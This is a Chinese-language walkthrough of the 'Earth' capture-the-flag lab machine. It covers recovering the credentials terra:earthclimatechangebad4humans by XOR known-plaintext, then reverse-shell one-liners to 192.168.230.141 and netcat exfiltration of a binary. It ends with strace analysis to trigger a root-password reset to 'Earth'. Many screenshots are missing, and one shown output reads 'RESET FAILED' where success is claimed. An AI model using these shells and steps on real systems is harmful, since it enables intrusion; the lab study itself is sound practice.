域名1


域名2









从这段消息中提取到登陆账户名：terra，加密算法XOR，还有一个testdata.txt用于测试加密功能，地球接受到发送的消息了已经因该是：
```
第三次接收：37090b59030f11060b0a1b4e0000000000004312170a1b0b0e4107174f1a0b044e0a000202134e0a161d17040359061d43370f15030b10414e340e1c0a0f0b0b061d430e0059220f11124059261ae281ba124e14001c06411a110e00435542495f5e430a0715000306150b0b1c4e4b5242495f5e430c07150a1d4a410216010943e281b54e1c0101160606591b0143121a0b0a1a00094e1f1d010e412d180307050e1c17060f43150159210b144137161d054d41270d4f0710410010010b431507140a1d43001d5903010d064e18010a4307010c1d4e1708031c1c4e02124e1d0a0b13410f0a4f2b02131a11e281b61d43261c18010a43220f1716010d40
第二次接收：3714171e0b0a550a1859101d064b160a191a4b0908140d0e0d441c0d4b1611074318160814114b0a1d06170e1444010b0a0d441c104b150106104b1d011b100e59101d0205591314170e0b4a552a1f59071a16071d44130f041810550a05590555010a0d0c011609590d13430a171d170c0f0044160c1e150055011e100811430a59061417030d1117430910035506051611120b45
最早的消息：2402111b1a0705070a41000a431a000a0e0a0f04104601164d050f070c0f15540d1018000000000c0c06410f0901420e105c0d074d04181a01041c170d4f4c2c0c13000d430e0e1c0a0006410b420d074d55404645031b18040a03074d181104111b410f000a4c41335d1c1d040f4e070d04521201111f1d4d031d090f010e00471c07001647481a0b412b1217151a531b4304001e151b171a4441020e030741054418100c130b1745081c541c0b0949020211040d1b410f090142030153091b4d150153040714110b174c2c0c13000d441b410f13080d12145c0d0708410f1d014101011a050d0a084d540906090507090242150b141c1d08411e010a0d1b120d110d1d040e1a450c0e410f090407130b5601164d00001749411e151c061e454d0011170c0a080d470a1006055a010600124053360e1f1148040906010e130c00090d4e02130b05015a0b104d0800170c0213000d104c1d050000450f01070b47080318445c090308410f010c12171a48021f49080006091a48001d47514c50445601190108011d451817151a104c080a0e5a
```



```text
testdata.txt:

According to radiometric dating estimation and other evidence, Earth formed over 4.5 billion years ago. Within the first billion years of Earth's history, life appeared in the oceans and began to affect Earth's atmosphere and surface, leading to the proliferation of anaerobic and, later, aerobic organisms. Some geological evidence indicates that life may have arisen as early as 4.1 billion years ago.
```

梳理一下也就是发送方将testdata.txt中的内容通过XOR异或加密后得到了接受的消息。



得到账号密码：terra：earthclimatechangebad4humans

登陆得到一个命令执行界面
依次尝试：
**/bin/bash -i >& /dev/tcp/192.168.230.141 0>&1**
**bash -i >& /dev/tcp/192.168.230.141 0>&1**
**bash -i >& /dev/tcp/0xc0.0xa8.0xe6.0x8d 0>&1**




检测是否有python，有的话升级一下shell





/tmp目录下写入linpeas.sh



候选：





运行发现报错，在文件中搜索报错信息发现存在，那么后门可以尝试定位调试一下


	
| 字符串                                                             | 含义                             |
| --------------------------------------------------------------- | ------------------------------ |
| `CHECKING IF RESET TRIGGERS PRESENT...`                         | 启动时检查触发条件                      |
| `RESET TRIGGERS ARE PRESENT, RESETTING ROOT PASSWORD TO: Earth` | **触发成功 → 重置 root 密码为 `Earth`** |
| `RESET FAILED, ALL TRIGGERS ARE NOT PRESENT.`                   | 触发失败 → 你当前看到的结果                |


使用strings读取之前发现的reset_root二进制文件
**`strings` 的核心作用可以用一句话概括：**
**从任何文件（尤其是二进制文件）中提取并输出所有人类可读的文本片段。**



可读性还是太差，下载到kali上使用 **strace** 命令进行调试
**strace 是 Linux 下的“程序行为监控摄像头”**——它能把程序运行时调用的所有**系统内核函数（系统调用）**全部记录下来，让你看到程序在背后偷偷干了什么。

**strace 能解决什么问题？**

| 场景             | 用 strace 怎么看                                      |
| -------------- | ------------------------------------------------- |
| **程序打不开文件**    | 看 `open()` 返回 `-1 ENOENT`（文件不存在）或 `EACCES`（权限不够）  |
| **程序卡死/无响应**   | 看最后卡在哪个系统调用（比如 `read()` 在等输入，`connect()` 在等网络）    |
| **程序偷偷改了系统配置** | 看 `open("/etc/shadow")`、`chmod()`、`chown()` 等敏感调用 |
| **程序执行了外部命令**  | 看 `execve("/bin/bash", ...)`                      |
| **程序耗时长**      | 用 `-T` 参数看每个调用的耗时                                 |
| **程序有隐藏后门**    | 看是否有异常的 `connect()` 到外网 IP                        |
**最常用的 10 个实战参数**

| 参数                          | 作用                          | 示例                                                                                                    |
| --------------------------- | --------------------------- | ----------------------------------------------------------------------------------------------------- |
| `-o file`                   | 输出到文件（防止刷屏）                 | `strace -o log.txt ./program`                                                                         |
| `-e trace=xxx`              | **只跟踪特定类型的调用**，最常用！         | `-e trace=file`（文件操作）  <br>`-e trace=process`（进程）  <br>`-e trace=network`（网络）  <br>`-e trace=all`（全部） |
| `-f`                        | **跟踪子进程**（fork/vfork/clone） | `strace -f ./program`                                                                                 |
| `-p PID`                    | **附加到正在运行的进程**（动态调试）        | `strace -p 1234`                                                                                      |
| `-s SIZE`                   | 显示完整字符串（默认截断 32 字符）         | `strace -s 200 ./program`                                                                             |
| `-T`                        | 显示每个系统调用的耗时（微秒）             | `strace -T ./program`                                                                                 |
| `-tt`                       | 显示精确时间戳（微秒级）                | `strace -tt ./program`                                                                                |
| `-c`                        | **统计模式**（汇总每个调用的次数/耗时）      | `strace -c ./program`                                                                                 |
| `-e signal=none`            | 不显示信号（减少噪音）                 | `strace -e signal=none ./program`                                                                     |
| `-e inject=call:retval=xxx` | **伪造返回值**（高级渗透测试用）          | 让 `open()` 强制返回成功                                                                                     |

尝试wget下载失败





防火墙设有规则，入站出站有限制

没有权限无法对防火墙规则进行修改





利用nc发送接收数据

接收端先主动监听
```
nc -lnvp 5888 > reset_root
# 文件传输完后，Ctrl+C 停止
```

发送端
```
nc 192.168.230.141 5888 < /usr/bin/reset_root
```





strace分析【strace跟绝对路径】



```
# 1. 程序启动
execve("/home/kali/桌面/rroot", ...)

# 2. 打印检查信息
write(1, "CHECKING IF RESET TRIGGERS PRESE"..., 38)

# 3. 依次检查三个文件（这是关键！）
access("/dev/shm/kHgTFI5G", F_OK) = -1 ENOENT
access("/dev/shm/Zw7bV9U5", F_OK) = -1 ENOENT
access("/tmp/kcM0Wewe", F_OK)   = -1 ENOENT

# 4. 所有文件都不存在 → 失败
write(1, "RESET FAILED, ALL TRIGGERS ARE N"..., 44)

# 5. 退出
exit_group(0)
```

创建三个文件然后执行程序
```
CHECKING IF RESET TRIGGERS PRESENT...
RESET FAILED, ALL TRIGGERS ARE NOT PRESENT.
```

可以发现执行成功密码被重置为Earth



登陆收工

